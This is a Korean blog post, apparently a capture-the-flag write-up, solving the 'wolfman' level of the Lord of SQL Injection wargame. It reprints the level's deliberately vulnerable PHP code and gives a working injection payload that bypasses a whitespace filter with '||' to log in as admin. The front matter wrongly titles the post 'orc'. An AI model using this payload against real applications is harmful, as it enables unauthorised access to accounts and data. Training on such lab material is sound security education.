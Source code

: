 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.  

이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.  

당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.  

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.  

`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.  

문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

`WOLFMAN Clear!!`